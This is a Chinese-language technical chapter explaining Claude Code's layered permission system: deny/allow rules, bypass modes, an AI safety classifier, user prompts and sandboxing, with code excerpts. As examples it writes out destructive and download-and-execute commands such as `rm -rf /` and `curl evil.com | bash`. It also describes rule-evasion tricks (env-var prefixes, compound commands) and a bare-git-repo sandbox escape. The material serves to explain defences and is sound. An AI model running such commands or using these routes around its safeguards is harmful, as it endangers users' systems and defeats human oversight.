



# 第 5 章：权限模型——在能力与安全之间走钢丝

> **核心思想**：**安全不是一个开关，而是一个频谱**。从"拒绝一切"到"询问用户"再到"允许执行"，Claude Code 的权限系统像一座多层安检楼——每个旅客（每条工具调用）必须通过层层检查站，但常旅客可以走快速通道。

---

## 5.1 为什么 AI Agent 需要权限模型？

想象你雇了一个极其能干的助手。他会写代码、能操作终端、可以读写文件。但问题来了：

- 如果你不给他任何权限，他什么也做不了——你白雇了他。
- 如果你给他所有权限，他可能误删你的配置文件、执行 `rm -rf /`、或者在你不知情的情况下 `curl` 一个恶意 URL。

这就是 AI Agent 的核心困境：**它需要足够的权限来完成任务，但不能拥有无限制的权限**。

传统软件的权限模型（比如 Unix 的 rwx、Android 的 Manifest 声明）是**静态**的——安装时确定，运行时不变。但 AI Agent 的行为是**动态**的：同样是 `Bash` 工具，`git status` 和 `rm -rf /` 的风险天差地别。

Claude Code 对此的回答是一个**四层权限决策管线**：规则匹配 -> 模式检查 -> 分类器判断 -> 用户交互。不是简单的"允许/拒绝"二元选择，而是一个从快到慢、从确定到模糊的决策瀑布。

这就像一座现代机场的安检系统：

1. **黑名单检查**（deny 规则）：恐怖分子名单上的人，直接拒绝登机——不需要任何人工判断。
2. **白名单检查**（allow 规则）：外交人员持外交护照，快速通行——不需要搜身。
3. **安检扫描**（分类器）：普通旅客过 X 光机——自动化但有判断力。
4. **人工复查**（用户提示）：可疑物品需要安检员打开箱子检查——最慢但最可靠。

## 5.2 四层权限决策

让我们用一幅完整的流程图来描绘这个决策管线。整个流程定义在 `permissions.ts` 的 `hasPermissionsToUseToolInner` 函数中，约 160 行代码构成了权限系统的心脏：



### 第 1 层：规则匹配——黑名单与白名单

这是最快的一层，纯粹的字符串匹配，没有 AI、没有网络调用，微秒级完成。核心代码在 `hasPermissionsToUseToolInner` 的前半部分：

```typescript
// permissions.ts — 第 1 层：规则匹配
// 1a. 整个工具被拒绝
const denyRule = getDenyRuleForTool(appState.toolPermissionContext, tool)
if (denyRule) {
  return {
    behavior: 'deny',
    decisionReason: { type: 'rule', rule: denyRule },
    message: `Permission to use ${tool.name} has been denied.`,
  }
}

// 1b. 整个工具被标记为 always-ask
const askRule = getAskRuleForTool(appState.toolPermissionContext, tool)
if (askRule) {
  // 特殊情况：沙箱自动允许可以覆盖 ask 规则
  const canSandboxAutoAllow =
    tool.name === BASH_TOOL_NAME &&
    SandboxManager.isSandboxingEnabled() &&
    SandboxManager.isAutoAllowBashIfSandboxedEnabled() &&
    shouldUseSandbox(input)
  if (!canSandboxAutoAllow) {
    return { behavior: 'ask', ... }
  }
}

// 1c. 工具自身的权限检查
const parsedInput = tool.inputSchema.parse(input)
toolPermissionResult = await tool.checkPermissions(parsedInput, context)
```

注意第 1b 步中的沙箱特殊处理：当 `autoAllowBashIfSandboxed` 开启时，即使整个 Bash 工具被标记为 `ask`，只要命令将在沙箱中运行，就可以跳过询问。这体现了一个关键设计哲学：**沙箱是权限的替代品**——如果你已经限制了能力的边界，就不需要逐条审批。

### 第 2 层：模式检查——VIP 通道

通过第 1 层后，系统检查全局权限模式：

```typescript
// permissions.ts — 第 2 层：模式检查
// 2a. bypassPermissions 模式：直接放行
const shouldBypassPermissions =
  appState.toolPermissionContext.mode === 'bypassPermissions' ||
  (appState.toolPermissionContext.mode === 'plan' &&
    appState.toolPermissionContext.isBypassPermissionsModeAvailable)
if (shouldBypassPermissions) {
  return { behavior: 'allow', ... }
}

// 2b. 工具级 allow 规则
const alwaysAllowedRule = toolAlwaysAllowedRule(appState.toolPermissionContext, tool)
if (alwaysAllowedRule) {
  return { behavior: 'allow', ... }
}

// 3. 兜底：passthrough 转为 ask
const result: PermissionDecision =
  toolPermissionResult.behavior === 'passthrough'
    ? { ...toolPermissionResult, behavior: 'ask' as const, ... }
    : toolPermissionResult
```

这里有一个微妙但关键的设计：**deny 和 safety check 在 bypass 模式之前检查**。即使用户开启了"信任一切"的 bypassPermissions 模式，deny 规则和安全检查（如修改 `.git/` 或 `.claude/` 目录）仍然生效。这是"defense in depth"原则的体现——安全层永远不会被单个开关完全关闭。

具体来说，步骤 1f 和 1g 在 `hasPermissionsToUseToolInner` 中**先于**步骤 2a 执行：

```typescript
// 1f. 内容级 ask 规则（即使 bypass 模式也生效）
if (toolPermissionResult?.behavior === 'ask' &&
    toolPermissionResult.decisionReason?.type === 'rule' &&
    toolPermissionResult.decisionReason.rule.ruleBehavior === 'ask') {
  return toolPermissionResult
}

// 1g. 安全检查（绕过免疫）
if (toolPermissionResult?.behavior === 'ask' &&
    toolPermissionResult.decisionReason?.type === 'safetyCheck') {
  return toolPermissionResult
}

// 只有通过了以上检查，才到达 bypass 模式判断
```

### 第 3 层：分类器决策——AI 审查 AI

当前两层无法做出决定（结果为 `ask`）时，外层函数 `hasPermissionsToUseTool` 介入。如果当前处于 `auto` 模式，系统会调用一个 AI 分类器来判断操作是否安全：

```typescript
// permissions.ts — hasPermissionsToUseTool 外层
if (result.behavior === 'ask') {
  if (appState.toolPermissionContext.mode === 'dontAsk') {
    return { behavior: 'deny', ... } // dontAsk: ask 转 deny
  }

  if (feature('TRANSCRIPT_CLASSIFIER') &&
      appState.toolPermissionContext.mode === 'auto') {
    // 快速路径 1: acceptEdits 模式会允许的操作，直接放行
    // 快速路径 2: 安全工具白名单，直接放行
    // 慢路径: 运行 auto-mode 分类器
    const classifierResult = await classifyYoloAction(
      context.messages, action, context.options.tools,
      appState.toolPermissionContext, context.abortController.signal,
    )
    // ...
  }
}
```

分类器有三条快速路径来避免昂贵的 API 调用：

1. **acceptEdits 检查**：如果操作在 `acceptEdits` 模式下本来就被允许（比如在工作目录内编辑文件），直接放行。
2. **安全工具白名单**：某些工具（如纯读取工具）被标记为始终安全，跳过分类器。
3. **分类器推理**：只有在前两条快速路径都不命中时，才真正调用 AI 分类器。

分类器还有一个**拒绝跟踪**机制。如果连续多次拒绝，系统会回退到用户提示模式，避免 Agent 陷入无限重试循环：

```typescript
const newDenialState = recordDenial(denialState)
persistDenialState(context, newDenialState)

const denialLimitResult = handleDenialLimitExceeded(
  newDenialState, appState, classifierResult.reason,
  assistantMessage, tool, result, context,
)
if (denialLimitResult) return denialLimitResult
```

### 第 4 层：用户交互——最终裁决

如果以上三层都没有给出确定答案，系统最终回退到用户交互。这不是一个简单的 `confirm()` 对话框，而是一个复杂的多路竞赛系统，定义在 `useCanUseTool.tsx` 中：

```typescript
// useCanUseTool.tsx — 三条权限路径
switch (result.behavior) {
  case 'ask': {
    // 路径 1: 协调器 (coordinator)
    if (appState.toolPermissionContext.awaitAutomatedChecksBeforeDialog) {
      const coordinatorDecision = await handleCoordinatorPermission({...})
      if (coordinatorDecision) { resolve(coordinatorDecision); return }
    }
    // 路径 2: Swarm 工人
    const swarmDecision = await handleSwarmWorkerPermission({...})
    if (swarmDecision) { resolve(swarmDecision); return }
    // 路径 3: 交互式对话框
    handleInteractivePermission({...}, resolve)
  }
}
```

## 5.3 权限规则的 DSL

权限规则使用一种简洁的领域特定语言（DSL），格式为 `ToolName(content)`。解析逻辑在 `permissionRuleParser.ts` 中：

```typescript
// permissionRuleParser.ts
export function permissionRuleValueFromString(
  ruleString: string,
): PermissionRuleValue {
  const openParenIndex = findFirstUnescapedChar(ruleString, '(')
  if (openParenIndex === -1) {
    return { toolName: normalizeLegacyToolName(ruleString) }
  }
  const closeParenIndex = findLastUnescapedChar(ruleString, ')')
  // ...
  const toolName = ruleString.substring(0, openParenIndex)
  const rawContent = ruleString.substring(openParenIndex + 1, closeParenIndex)
  if (rawContent === '' || rawContent === '*') {
    return { toolName: normalizeLegacyToolName(toolName) }
  }
  const ruleContent = unescapeRuleContent(rawContent)
  return { toolName: normalizeLegacyToolName(toolName), ruleContent }
}
```

数据类型定义在 `types/permissions.ts` 中：

```typescript
export type PermissionRuleValue = {
  toolName: string       // 工具名: "Bash", "Edit", "mcp__server1__tool1"
  ruleContent?: string   // 可选内容: "git commit:*", "npm install"
}

export type PermissionRule = {
  source: PermissionRuleSource  // 来自哪里
  ruleBehavior: PermissionBehavior  // allow | deny | ask
  ruleValue: PermissionRuleValue  // 匹配什么
}
```

### 规则语法示例

| 规则字符串 | 含义 |
|---|---|
| `Bash` | 整个 Bash 工具 |
| `Bash(git commit:*)` | 以 `git commit` 开头的所有 Bash 命令 |
| `Bash(npm install)` | 精确匹配 `npm install` |
| `Edit(/src/**)` | 编辑 `/src/` 下任意文件 |
| `mcp__server1` | 某 MCP 服务器的所有工具 |
| `Bash(python -c "print\\(1\\)")` | 包含括号的命令（需转义） |

### 规则来源的优先级

规则可以来自多个来源，按优先级从高到低排列：

```typescript
const PERMISSION_RULE_SOURCES = [
  ...SETTING_SOURCES,  // policySettings > flagSettings > projectSettings > localSettings > userSettings
  'cliArg',            // CLI 参数
  'command',           // /permissions 命令
  'session',           // 会话内临时规则
] as const
```

**deny 优先于 ask 优先于 allow**。这是一个关键的安全设计：管理员通过 `policySettings` 设置的 deny 规则，无论用户如何配置 allow 规则，都无法被覆盖。

### Bash 专用的规则匹配

Bash 工具的规则匹配远比其他工具复杂。`bashPermissions.ts` 中的 `filterRulesByContentsMatchingInput` 函数处理三种匹配模式：

```typescript
// bashPermissions.ts
return Array.from(rules.entries())
  .filter(([ruleContent]) => {
    const bashRule = bashPermissionRule(ruleContent)
    return commandsToTry.some(cmdToMatch => {
      switch (bashRule.type) {
        case 'exact':     // "npm install" 精确匹配
          return bashRule.command === cmdToMatch
        case 'prefix':    // "git commit:*" 前缀匹配
          // 安全: 不允许前缀规则匹配复合命令
          if (isCompoundCommand.get(cmdToMatch)) return false
          return cmdToMatch.startsWith(bashRule.prefix + ' ')
        case 'wildcard':  // "docker * build" 通配符
          return matchWildcardPattern(bashRule.pattern, cmdToMatch)
      }
    })
  })
```

在匹配之前，命令会经过 `stripSafeWrappers` 处理，去除安全的包装器命令和环境变量：

```typescript
// bashPermissions.ts — stripSafeWrappers
// "timeout 10 npm install foo" -> "npm install foo"
// "NODE_ENV=prod npm run build" -> "npm run build"
// "nohup git push" -> "git push"
```

这里的安全性设计非常精妙：

- **allow 规则**只剥离安全列表中的环境变量（`SAFE_ENV_VARS`）。这是因为 `DOCKER_HOST=evil docker ps` 不应匹配 `Bash(docker ps:*)`。
- **deny 规则**则剥离**所有**前导环境变量（`stripAllLeadingEnvVars`）。因为 `FOO=bar rm -rf /` 不应因为加了一个环境变量就逃过 deny 规则。

## 5.4 三条权限路径

当决策流水线产出 `ask` 结果后，`useCanUseTool.tsx` 根据运行上下文分流到三条不同的权限处理路径：



### 路径 1：协调器路径 (coordinatorHandler)

当 `awaitAutomatedChecksBeforeDialog` 为 true 时（通常是后台协调器 worker），自动化检查**顺序**执行，在显示对话框之前完成：

```typescript
// coordinatorHandler.ts
async function handleCoordinatorPermission(params) {
  // 1. 先尝试 hooks（快速，本地）
  const hookResult = await ctx.runHooks(permissionMode, suggestions, updatedInput)
  if (hookResult) return hookResult

  // 2. 再尝试分类器（慢，需要推理）
  const classifierResult = feature('BASH_CLASSIFIER')
    ? await ctx.tryClassifier?.(params.pendingClassifierCheck, updatedInput)
    : null
  if (classifierResult) return classifierResult

  // 3. 都没结果——回退到对话框
  return null
}
```

设计意图很明确：后台 worker 应该尽量通过自动化手段解决权限问题，只有在自动化手段都无法决定时才中断用户。

### 路径 2：Swarm Worker 路径 (swarmWorkerHandler)

Swarm worker 是多 Agent 协作系统中的"工人"Agent。它不能直接弹出对话框（因为它可能运行在后台进程中），所以采用"邮箱"机制：

```typescript
// swarmWorkerHandler.ts
async function handleSwarmWorkerPermission(params) {
  if (!isAgentSwarmsEnabled() || !isSwarmWorker()) return null

  // 1. 先尝试分类器自动批准
  const classifierResult = feature('BASH_CLASSIFIER')
    ? await ctx.tryClassifier?.(params.pendingClassifierCheck, updatedInput)
    : null
  if (classifierResult) return classifierResult

  // 2. 创建权限请求并发送给 leader
  const request = createPermissionRequest({
    toolName: ctx.tool.name, toolUseId: ctx.toolUseID,
    input: ctx.input, description, permissionSuggestions: suggestions,
  })
  registerPermissionCallback({
    requestId: request.id,
    async onAllow(allowedInput, permissionUpdates, feedback) { ... },
    onReject(feedback) { ... },
  })
  await sendPermissionRequestViaMailbox(request)
  // ...
}
```

这个设计让分布式 Agent 系统中的权限管理变得可行——worker 不需要自己的终端，它通过消息传递把决策权交给 leader。

### 路径 3：交互式路径 (interactiveHandler)

这是最复杂的路径，也是普通 CLI 用户最常遇到的。它的核心是一个**多路竞赛**机制：

```typescript
// interactiveHandler.ts
function handleInteractivePermission(params, resolve) {
  const { resolve: resolveOnce, isResolved, claim } = createResolveOnce(resolve)

  // 将权限请求推入 UI 队列
  ctx.pushToQueue({
    onUserInteraction() { userInteracted = true },
    onAbort() { if (!claim()) return; resolveOnce(ctx.cancelAndAbort()) },
    async onAllow(updatedInput, permissionUpdates, feedback) {
      if (!claim()) return
      resolveOnce(await ctx.handleUserAllow(updatedInput, permissionUpdates, feedback))
    },
    onReject(feedback) { if (!claim()) return; resolveOnce(ctx.cancelAndAbort(feedback)) },
    async recheckPermission() { ... },
  })

  // 后台异步：hooks
  if (!awaitAutomatedChecksBeforeDialog) {
    void (async () => {
      const hookDecision = await ctx.runHooks(...)
      if (!hookDecision || !claim()) return
      ctx.removeFromQueue()
      resolveOnce(hookDecision)
    })()
  }

  // 后台异步：分类器
  if (feature('BASH_CLASSIFIER') && result.pendingClassifierCheck) {
    void executeAsyncClassifierCheck(result.pendingClassifierCheck, signal, ..., {
      shouldContinue: () => !isResolved() && !userInteracted,
      onAllow: decisionReason => {
        if (!claim()) return
        // 显示自动批准的过渡动画
        ctx.updateQueueItem({ classifierAutoApproved: true })
        resolveOnce(ctx.buildAllow(ctx.input, { decisionReason }))
      },
    })
  }
}
```

`createResolveOnce` 和 `claim()` 是这个竞赛机制的关键：多个异步路径（用户点击、hooks 返回、分类器完成、Bridge 响应、Channel 回复）都可能同时尝试 resolve 同一个 Promise。`claim()` 确保只有第一个到达的路径生效，其余路径静默丢弃。

`userInteracted` 标志也是一个巧妙的设计：一旦用户开始与对话框交互（按下方向键、Tab 键等），分类器的自动批准就会被禁用。这避免了"用户正在看对话框，突然对话框消失了"的糟糕体验。

## 5.5 投机性分类器

Claude Code 有一个精妙的优化叫"投机性分类器检查"（speculative classifier check）。在 `bashPermissions.ts` 中：

```typescript
// bashPermissions.ts
const speculativeChecks = new Map<string, Promise<ClassifierResult>>()

export function startSpeculativeClassifierCheck(
  command: string, toolPermissionContext, signal, isNonInteractiveSession,
): boolean {
  // 和 buildPendingClassifierCheck 相同的守卫条件
  if (!isClassifierPermissionsEnabled()) return false
  // ...
  const promise = classifyBashCommand(command, cwd, allowDescriptions, 'allow', signal, ...)
  promise.catch(() => {}) // 防止未处理的拒绝
  speculativeChecks.set(command, promise)
  return true
}

export function consumeSpeculativeClassifierCheck(command: string) {
  const promise = speculativeChecks.get(command)
  if (promise) speculativeChecks.delete(command)
  return promise
}
```

这个优化的思路是：当系统预计某个命令可能需要分类器判断时，**提前**启动分类器调用，让它与其他处理（hooks 检查、UI 渲染）并行运行。如果分类器在用户看到对话框之前就返回了"允许"，用户甚至不会看到提示。

在 `useCanUseTool.tsx` 中，有一个 2 秒的宽限期来等待投机性检查完成：

```typescript
// useCanUseTool.tsx — 投机性分类器宽限期
if (feature('BASH_CLASSIFIER') && result.pendingClassifierCheck &&
    tool.name === BASH_TOOL_NAME) {
  const speculativePromise = peekSpeculativeClassifierCheck(input.command)
  if (speculativePromise) {
    const raceResult = await Promise.race([
      speculativePromise.then(r => ({ type: 'result', result: r })),
      new Promise(res => setTimeout(res, 2000, { type: 'timeout' })),
    ])
    if (raceResult.type === 'result' && raceResult.result.matches &&
        raceResult.result.confidence === 'high') {
      // 分类器批准——跳过对话框
      consumeSpeculativeClassifierCheck(input.command)
      resolve(ctx.buildAllow(...))
      return
    }
  }
}
```

## 5.6 沙箱隔离

沙箱是权限系统的另一个维度。如果说权限规则回答的是"是否允许这个操作"，沙箱回答的是"即使允许了，操作的影响范围有多大"。

`sandbox-adapter.ts` 充当了 Claude Code 与底层沙箱运行时之间的桥梁：

```typescript
// sandbox-adapter.ts
export function convertToSandboxRuntimeConfig(settings): SandboxRuntimeConfig {
  // 从权限规则中提取网络域名
  const allowedDomains: string[] = []
  for (const ruleString of permissions.allow || []) {
    const rule = permissionRuleValueFromString(ruleString)
    if (rule.toolName === WEB_FETCH_TOOL_NAME && rule.ruleContent?.startsWith('domain:')) {
      allowedDomains.push(rule.ruleContent.substring('domain:'.length))
    }
  }

  // 从 Edit/Read 规则中提取文件系统路径
  const allowWrite: string[] = ['.', getClaudeTempDir()]
  const denyWrite: string[] = []
  // 始终拒绝写入设置文件——防止沙箱逃逸
  denyWrite.push(...settingsPaths)
  // ...
  return { network: { allowedDomains, ... }, filesystem: { allowWrite, denyWrite, ... }, ... }
}
```

沙箱的关键安全措施：

1. **设置文件写保护**：始终拒绝写入 `settings.json`，防止命令修改权限配置实现沙箱逃逸。
2. **裸 Git 仓库防护**：防止攻击者通过创建 `HEAD`、`objects/`、`refs/` 文件伪造 Git 仓库，利用 `core.fsmonitor` 执行任意代码。
3. **Git worktree 支持**：自动检测并允许写入主仓库的 `.git` 目录。
4. **命令后清理**：`scrubBareGitRepoFiles` 在每个沙箱命令后清除可能被植入的裸仓库文件。

```typescript
// sandbox-adapter.ts — 裸 Git 仓库安全措施
const bareGitRepoFiles = ['HEAD', 'objects', 'refs', 'hooks', 'config']
for (const dir of [originalCwd, cwd]) {
  for (const gitFile of bareGitRepoFiles) {
    const p = resolve(dir, gitFile)
    try {
      statSync(p) // 文件存在: 只读绑定
      denyWrite.push(p)
    } catch {
      bareGitRepoScrubPaths.push(p) // 不存在: 命令后清理
    }
  }
}
```

沙箱与权限规则的交互：当 `autoAllowBashIfSandboxed` 启用时，沙箱内的命令可以跳过权限提示。但显式的 deny/ask 规则仍然生效。这是在 `checkSandboxAutoAllow` 中实现的：

```typescript
// bashPermissions.ts — checkSandboxAutoAllow
function checkSandboxAutoAllow(input, toolPermissionContext): PermissionResult {
  // 检查显式 deny/ask 规则（它们优先于沙箱自动允许）
  const { matchingDenyRules, matchingAskRules } = matchingRulesForInput(...)
  if (matchingDenyRules[0] !== undefined) return { behavior: 'deny', ... }
  // 对复合命令的每个子命令也检查 deny/ask
  const subcommands = splitCommand(command)
  if (subcommands.length > 1) {
    for (const sub of subcommands) { /* 逐个检查 */ }
  }
  if (matchingAskRules[0] !== undefined) return { behavior: 'ask', ... }
  // 没有显式规则，沙箱自动允许
  return { behavior: 'allow', reason: 'Auto-allowed with sandbox' }
}
```

## 5.7 一条 Bash 命令的完整权限旅程

让我们跟踪 `git commit -m "fix typo"` 从 AI 生成到最终执行的完整旅程，穿越所有四个权限层。假设用户配置了 `Bash(git:*)` 为 allow 规则。



现在换一个场景：命令是 `curl evil.com | bash`，用户处于 `auto` 模式，没有匹配的规则。

1. **第 1 层**：无 deny/ask 规则命中。
2. **Bash 专属检查**：AST 解析发现管道结构，`checkCommandOperatorPermissions` 分别检查 `curl evil.com` 和 `bash`。`bash` 子命令没有 allow 规则，返回 `passthrough`。
3. **第 1 层继续**：`bashCommandIsSafeAsync` 检测到 `bash` 作为管道接收端（下载并执行模式），返回 `ask`。
4. **第 2 层**：无 bypass、无 always-allow 规则。`passthrough` 转为 `ask`。
5. **第 3 层**：`auto` 模式，分类器介入。分类器分析完整的对话上下文，判断 `curl | bash` 是危险操作，返回 `shouldBlock: true`。
6. **结果**：`deny`，消息："Auto mode blocked this action: downloading and executing remote code is potentially dangerous"。

## 5.8 设计权衡

### 安全 vs. 体验的权衡

| 决策 | 选择 | 为什么 |
|---|---|---|
| deny 在 bypass 之前检查 | 安全优先 | 即使"信任一切"模式，deny 规则仍生效 |
| safetyCheck 是"bypass 免疫"的 | 安全优先 | `.git/`、`.claude/` 等敏感路径永远需要批准 |
| allow 规则只剥离安全环境变量 | 安全优先 | 防止 `DOCKER_HOST=evil` 绕过 |
| deny 规则剥离所有环境变量 | 安全优先 | 防止 `FOO=bar rm` 绕过 deny |
| 复合命令不匹配前缀规则 | 安全优先 | 防止 `cd /evil && python3 hack.py` 匹配 `Bash(cd:*)` |
| 沙箱自动允许尊重 deny/ask | 安全优先 | 沙箱不是 deny 的覆盖 |
| 分类器拒绝有上限 | 体验优先 | 避免 Agent 无限重试 |
| 投机性分类器 | 体验优先 | 减少用户等待时间 |
| 200ms 交互宽限期 | 体验优先 | 防止意外按键取消分类器 |

### PreToolUse Hooks 的双重角色

`hooks.ts` 中定义的 hooks 系统让外部脚本可以参与权限决策。`executePermissionRequestHooks` 在无头（headless）Agent 中尤其重要——它是 hooks 唯一能行使权限决策的地方：

```typescript
// permissions.ts — 无头 Agent 的 hook 处理
async function runPermissionRequestHooksForHeadlessAgent(...) {
  for await (const hookResult of executePermissionRequestHooks(
    tool.name, toolUseID, input, context, permissionMode, suggestions, signal,
  )) {
    if (!hookResult.permissionRequestResult) continue
    const decision = hookResult.permissionRequestResult
    if (decision.behavior === 'allow') {
      // 持久化权限更新
      if (decision.updatedPermissions?.length) {
        persistPermissionUpdates(decision.updatedPermissions)
      }
      return { behavior: 'allow', updatedInput: decision.updatedInput ?? input }
    }
    if (decision.behavior === 'deny') {
      if (decision.interrupt) context.abortController.abort()
      return { behavior: 'deny', message: decision.message || 'Permission denied by hook' }
    }
  }
  return null // 无 hook 做出决定——自动拒绝
}
```

Hooks 可以做到规则系统做不到的事情：它们可以运行任意逻辑（比如检查 CI 状态、查询外部审计系统）来决定是否允许操作。

### 为什么用 `passthrough` 而不是直接用 `ask`？

`PermissionResult` 有四种行为：`allow`、`deny`、`ask`、`passthrough`。`passthrough` 的存在是为了区分两种情况：

- `ask`：工具**明确**认为需要用户批准（比如命中了 ask 规则、安全检查触发）。
- `passthrough`：工具**没有意见**——它既不允许也不拒绝，让上层决定。

这个区分在 auto 模式下很重要：explicit ask（如 safetyCheck）不能被分类器覆盖，但 passthrough 可以。

## 5.9 迁移指南

### 添加新工具的权限检查

每个工具需要实现 `checkPermissions` 方法：

```typescript
// 你的新工具
export const MyTool: Tool = {
  name: 'MyTool',
  async checkPermissions(input, context) {
    const appState = context.getAppState()

    // 1. 检查工具级 deny/allow 规则（自动由 permissions.ts 处理）
    // 2. 检查内容级规则
    const denyRules = getRuleByContentsForTool(
      appState.toolPermissionContext, MyTool, 'deny'
    )
    // 3. 检查模式
    // 4. 返回 PermissionResult
    return { behavior: 'passthrough', message: '...' }
  },
}
```

### 添加新的权限规则来源

如果需要从新的来源（比如远程配置服务器）加载规则：

1. 在 `PermissionRuleSource` 类型中添加新来源
2. 在 `PERMISSION_RULE_SOURCES` 数组中添加
3. 实现对应的加载逻辑
4. 确保 `permissionRuleSourceDisplayString` 返回可读名称

### 配置沙箱

在 `settings.json` 中：

```json
{
  "sandbox": {
    "enabled": true,
    "autoAllowBashIfSandboxed": true,
    "allowUnsandboxedCommands": false,
    "excludedCommands": ["docker"],
    "network": {
      "allowedDomains": ["npmjs.org", "github.com"]
    },
    "filesystem": {
      "allowWrite": ["/tmp/build"],
      "denyWrite": ["/etc"]
    }
  }
}
```

## 5.10 费曼检验

**如果你要向一个不懂编程的朋友解释 Claude Code 的权限系统，你会怎么说？**

想象你有一个超级助手在你的电脑上工作。每次他想做点什么（运行命令、编辑文件），他的请求都要经过一座四层安检楼：

1. **黑白名单**（毫秒级）：你事先写好的规则。"永远不许删除文件"、"可以自由运行 git 命令"。这些规则是确定性的，不需要思考。

2. **VIP 通行证**（毫秒级）：你有没有开"信任模式"？如果开了，大部分请求直接通过（但黑名单仍然有效——即使是 VIP 也不能带违禁品）。

3. **AI 安检员**（秒级）：一个专门的小 AI 审查这个操作是否安全。它会看整个对话上下文来判断。如果它说"安全"，直接放行；如果说"危险"，直接拦截。如果它宕机了（铁门机制），也会拦截。

4. **人工复查**（分钟级）：如果上面三层都拿不定主意，弹出一个对话框问你。同时后台还在跑各种自动检查——如果在你按按钮之前自动检查通过了，对话框会自动消失，打个绿色勾告诉你。

